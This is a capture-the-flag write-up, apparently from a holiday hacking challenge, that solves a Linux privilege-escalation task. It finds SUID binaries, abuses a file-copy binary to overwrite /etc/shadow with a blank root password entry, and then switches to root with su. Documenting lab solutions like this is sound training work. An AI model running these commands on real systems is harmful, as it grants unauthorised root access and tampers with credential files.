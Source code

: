 ```yaml
---
icon: material/text-box-outline
---
```


# Linux PrivEsc

**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-regular-star::fontawesome-regular-star:<br/>
**Direct link**: [Objective 6 URL](https://.../)

## Objective

!!! question "Request"
    Rosemold is in Ostrich Saloon on the Island of Misfit Toys. Give her a hand with escalation for a tip about hidden islands.

??? quote "Rose Mold"
    What am I doing in this saloon? The better question is: what planet are you from?<br/>
    Yes, I’m a troll from the Planet Frost. I decided to stay on Earth after Holiday Hack 2021 and live among the elves because I made such dear friends here.

## Hints

??? tip "Linux Privilege Escalation Techniques"
    There's various ways to escalate privileges on a Linux system.https://payatu.com/blog/a-guide-to-linux-privilege-escalation/

??? tip "Linux Command Injection"
    Use the privileged binary to overwriting a file to escalate privileges could be a solution, but there's an easier method if you pass it a crafty argument..



## Solution

Upon obtaining console access to the terminal, we started exploring interesting files on filesystem

```sh
find / -perm -u+s 2>/dev/null
```

And we found binary **/usr/bin/simplecopy** . This binary can copy any file from the system even with root permission. So the plan was to take over root permissions.

Next we checked directory /etc/shadow for its structure. Create simple sh2 file with root account without password.

```sh
echo -e "root::19634:0:99999:7:::" > sh2
```

Next using simplecopy binary we modified /etc/shadow file and from now "su" did not require any password so we could freely use root account

```sh
 simplecopy sh2 /etc/shadow
 su

```

### Images

![Terminal output](../img/objectives/o7/terminal-privesc.png)


!!! success "Answer"
    "santa"

## Response

!!! quote "Rose Mold"
    Yup, I knew you knew. You just have that vibe.
